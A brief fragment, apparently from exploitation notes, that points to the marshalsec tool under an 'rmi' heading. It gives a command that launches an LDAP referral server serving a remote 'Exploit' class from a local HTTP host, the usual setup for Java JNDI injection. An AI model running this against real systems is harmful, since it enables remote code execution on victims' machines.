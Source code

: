 - rmi
- [工具marshalsec](https://github.com/k6ymaker/marshalsec)
```
  java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8888/\#vul.Exploit
```